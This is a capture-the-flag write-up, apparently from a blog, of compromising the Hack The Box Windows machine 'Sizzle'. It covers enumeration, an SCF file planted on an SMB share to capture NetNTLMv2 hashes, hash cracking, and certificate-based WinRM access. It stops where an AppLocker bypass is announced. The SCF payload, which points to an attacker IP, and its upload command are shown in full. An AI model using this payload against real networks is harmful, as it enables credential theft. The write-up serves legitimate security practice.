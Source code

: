 

#### Background


**Sizzler** is a a really tough windows box. 

#### Enumeration

To begin the enumeration process, a **TCP/UDP** port scan was run against the target using nmap. The purpose of scan is to quickly determine which ports are open and which services are running. 

###### OS Information
Based on the system we know it is running some version of windows server

###### Open Ports:
In addition to usual ports, 22 and 80 UDP port 161 is open. UDP 161 is the standard SNMP port.There is also a filtered ftp port showing.

![source-01](/img/sizzle5.PNG){: .align-left}

#### Notes:
- There are a lot of ports open and by looking at the open ports we know it is most likely a windows active directory setup.

#### HTTP - TCP 80
Gobuster did find an interesting directory **certenroll**  which is microsoft certificate authority enrolement service.
```python

/aspnet_client (Status: 301)
/certenroll (Status: 301)
/Images (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
```
But visiting that directory show us 403 forbidden

![source-01](/img/sizzle1.PNG){: .align-left}



#### SMB - TCP 445
Using SMB client i was able to get bunch of shares.

```python

sizzle smbclient -N -L \\\\sizzle.htb.local

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        CertEnroll      Disk      Active Directory Certificate Services share
        Department Shares Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        Operations      Disk
        SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```
Notes:
- From the shares i noticed the CertEnroll which is used by Microsoft Certificate Authority. From my years of experience with managing windows Active directory environments /certsrv 

Visting that directory pop us for a username and password

![source-01](/img/sizzle2.PNG){: .align-left}

So we need a username and password to access /certsrv, lets enumerate the SMB shares further.

There is nothing interesting in department shares and most of the folders are empty. 

![source-01](/img/sizzle4.PNG){: .align-left}

From all the folders we have Full access to  /Users folder.

![source-01](/img/sizzle7.PNG){: .align-left}

#### SMB Share – SCF File Attacks

When we have read/write access to a SMB file share, we can performa a SCF file attack to steal NetNTLMv2 hash.
> 

After uploading the malicious SCF file, we wait for responder 

![source-01](/img/sizzle8.PNG){: .align-left}

And we got user Amanda's NetNTLM Hash

#### Hash Cracking

Feed  the captured hash to hashcat to crack it.

![source-01](/img/sizzle9.PNG){: .align-left}

And we got the password.

#### Certenrol Access
Using the credential for amanda we can login to /cersrv which is Microsoft certificate certificate enrol service.

![source-01](/img/Screenshot_2020-06-21_16-25-23.png){: .align-left}

Great now we can request certificates, why we need a certificate anyway ?. From our initial nmap scans we know winrm port is open which is https, to use this service we need to have a valid certificate.

What is WinRM ?
> Windows Remote Management, or WinRM, is a Windows-native built-in remote management protocol in its simplest form that uses Simple Object Access Protocol to interface with remote computers and servers, as well as Operating Systems and applications.

#### Intial Acess - Compromising User

Now we can use the cersrv portal and request for Certificate Signing Request (CSR).

#### SCF - Attack
SCF payload:

```python

➜  sizzle cat steal.scf
[Shell]
command=2
IconFile=\\10.10.14.36\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
upload the SCF file to SMB share
```python

smb: \Users\public\> put steal.scf
putting file steal.scf as \Users\public\steal.scf (0.1 kb/s) (average 0.1 kb/s)
```

#### Certificate Signing Request (CSR)
We can use OpenSSL to generate CSR file 

![source-01](/img/Screenshot_2020-06-21_16-47-07.png){: .align-left}

On the certificate web enrollment page copy/paste the content of the CSR file.

![source-01](/img/Screenshot_2020-06-21_16-55-08.png){: .align-left}

After generating and signing the cerificate for amanda SSL authentication, we need to set some variables in WinRM script. 

![source-01](/img/Screenshot_2020.png){: .align-left}


#### Initial Access:
Now we can use WinRM script to Loging as amanda.

![source-01](/img/Screenshot_2020-58.png){: .align-left}

User.txt file is not in amanda folders, there was another user in the system. So we might have to exploit this user to get to administrator.

![source-01](/img/Screenshot_2020-06-22.png){: .align-left}


#### System Enumeration:
Try to upload and run bloodhound to the syste, but it was blocked by powershell constrained deligation, on top of that AppLocker is in place and its blocking everything i throw it.

![source-01](/img/Screenshot2020-06-2211.png){: .align-left}

> PowerShell Constrained Language is a language mode of PowerShell designed to support day-to-day administrative tasks, yet restrict access to sensitive language elements that can be used to invoke arbitrary Windows APIs.

#### PowerShell CL and AppLocker Bypass
Lets bypass powershell constrained language mode and AppLocker to run our tools.













